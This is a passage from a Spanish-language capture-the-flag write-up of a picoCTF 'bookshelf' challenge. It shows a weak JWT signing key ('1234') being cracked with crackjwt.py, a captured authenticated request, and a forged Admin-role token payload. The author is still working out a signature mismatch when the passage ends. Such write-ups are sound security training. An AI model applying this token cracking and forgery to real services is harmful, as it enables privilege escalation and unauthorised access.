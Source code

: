 ```shell
(jwtcrack) pablo☠office jwtcrack$ echo "1234" > dic
(jwtcrack) pablo☠office jwtcrack$ ./crackjwt.py eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJyb2xlIjoiRnJlZSIsImlzcyI6ImJvb2tzaGVsZiIsImV4cCI6MTc1MzQ4MzM3NiwiaWF0IjoxNzUyODc4NTc2LCJ1c2VySWQiOjEsImVtYWlsIjoidXNlciJ9.KFTGvUzu1HRjg8dSl68YnUvrt6garU4jqY8bFZPWz0k dic 
Cracking JWT eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJyb2xlIjoiRnJlZSIsImlzcyI6ImJvb2tzaGVsZiIsImV4cCI6MTc1MzQ4MzM3NiwiaWF0IjoxNzUyODc4NTc2LCJ1c2VySWQiOjEsImVtYWlsIjoidXNlciJ9.KFTGvUzu1HRjg8dSl68YnUvrt6garU4jqY8bFZPWz0k
0it [00:00, ?it/s]
Found secret key: 1234
```

Ahora para ver los datos que necesitamos para actualizar el rol podemos capturar la request al pulsar en nuestro perfil:

``` shell
GET http://saturn.picoctf.net:56265/base/users/1 HTTP/1.1
Host: saturn.picoctf.net:56265
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: application/json
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJyb2xlIjoiRnJlZSIsImlzcyI6ImJvb2tzaGVsZiIsImV4cCI6MTc1MzQ4NjYyNCwiaWF0IjoxNzUyODgxODI0LCJ1c2VySWQiOjEsImVtYWlsIjoidXNlciJ9.54F1RQYhjsqoDRXDE0K9pMfQYF6FMS84b_2c5RX9E8I
Connection: keep-alive
Referer: http://saturn.picoctf.net:56265/
Priority: u=0
```

Creo un usuario **test** y capturo el tráfico cuando accedo a las páginas, si altero los parámetros encodeo y firmo con la clave **1234**, podría falsear al admin? y acceder a los libros. Compongo la cadena con el payload:
``` json
{"typ": "JWT", "alg": "HS256"}{"role": "Admin","iss": "bookshelf","exp": 1753559781,"iat": 1752954981,"userId": 2,"email":"admin"}
```
Ahora podemos encodearla a base64 y firmarlo con la key JWT que hemos "crackeado".

Para conformar un token podemos usar esta web [https://jwt.io/](https://jwt.io/)
La teoría dice que podrías esta entrada en la web para firmar [https://jwt.io/introduction](https://jwt.io/introduction), Quizás sea yo que no supe como usar bien la web, que al final solo me sirvio para testear el encoder
simplemente introduciendo la key "1234" obviando las instrucciones sobre HMAC SHA256

El problema que encontré es a la hora de hacer el encoding
```
HMACSHA256(
  base64UrlEncode(header) + "." +
  base64UrlEncode(payload),
  1234)
```
La discrepancia en el hash que gerena jwt.io vs mi script. 
``` 
ZOOqQTtubOfURWwp33hdLH-BPCOvXLkTm4s3CRPX3F4
#vs
lHEd6aR6sdKZX00iiGUhpf5-mqCHMHb0ja23nj_a_oM
```
